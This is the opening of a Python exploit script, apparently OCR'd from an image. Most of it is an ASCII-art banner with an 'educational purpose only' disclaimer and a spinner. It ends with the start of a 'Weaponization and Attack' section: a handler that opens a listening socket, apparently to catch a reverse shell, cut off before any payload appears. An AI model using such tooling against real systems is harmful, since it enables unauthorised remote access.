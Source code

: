 ```python
## Banner
def banner():
  EwLogo = f"""

⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⡀⠀⠀⠀⠀⠀⠀⣀⠠⠤⢤⣤⣶⣴⣦⣤⣤⣀⡀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣿⣿⣿⣿⣿⣿⣿⣿⣿⡞⠀⠀⠀⠀⠀⠀⠀⠀⠉⠉⠛⠻⢿⣷⣄⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠈⠻⣄⠈⠉⠛⠿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠐⡯⣿⣷⡄⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠰⢾⣿⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⢌⡻⢿⡆⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠝⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡌⠿⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠋⠀⣸⣧⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠁
⠀⠀⠀⠀⠀⠀⠀⢀⣾⣏⣴⠟⢻⣿⠟⠛⠶⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢻⣿⡀
⠀⠀⠀⠀⠀⠀⠀⣼⣿⣿⣿⣴⠿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⢳⣜⣿⡇
⠀⠀⠀⠀⠀⣠⣾⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⢿⣿⡇
⠀⠀⢀⣤⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠸⣿⠇
⢀⣴⣿⡿⠋⠀⠀⠀⠀⠀⣀⣤⣶⣶⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⢸⣿⡄⡿⠀
⢺⣿⡏⠀⠀⠀⠀⢀⣤⣾⣿⠿⠛⠋⠙⠻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡝⣦⠀⣸⣿⡧⠃⠀
⠀⠈⠉⠀⢠⣤⣶⣿⡿⠋⠀⠀⠀⠀⠀⡀⠈⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⣿⣷⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⢀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡆⠀⠀⣼⡇⣾⣿⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⢻⣿⣀⣾⣿⢡⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⡿⢣⣿⣿⣿⣿⣣⡿⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⡿⠀⠀⠀⠀⠀⣀⣠⣤⣴⣶⣿⠿⣋⣴⣿⣿⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡇⠀⢀⣠⣶⣿⣿⡿⠟⠋⠉⠐⠊⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣇⣴⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀{RED}#--------------------------------------------#
 _____  _                         ___  _  _    _  _____  _   __ 
|  ___|| |                       /   || || |  | ||  _  || | / _|
| |__  | |_   ___  _ __  _ __   / /| || || |  | || |/' || || |_ 
|  __| | __| / _ \| '__|| '_ \ / /_| || || |/\| ||  /| || ||  _|
| |___ | |_ |  __/| |   | | | |\___  || |\  /\  /\ |_/ /| || |  
\____/  \__| \___||_|   |_| |_|    |_/|_| \/  \/  \___/ |_||_|  
                                                                
#----------------------------------------------------------------# 
    
    Author: {GREEN}0xEtern4lW0lf{END}                           
    {RED}Site: {BLUE}https://0xetern4lw0lf.github.io/{END}

    FOR EDUCATIONAL PURPOSE ONLY.

  """
  return print(f'{BLUE}{EwLogo}{END}')

## Pretty loading wheel
def loading(spins):

    def spinning_cursor():
        while True:
            for cursor in '|/-\\':
                yield cursor

    spinner = spinning_cursor()
    for _ in range(spins):
        sys.stdout.write(next(spinner))
        sys.stdout.flush()
        time.sleep(0.1)
        sys.stdout.write('\b')

##### Weaponization and Attack

## Set the handler
def handler(lport,target):
    print(f"{BLUE}[+] LISTEN: {YELLOW} Starting handler on {lport} [+]{END}")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```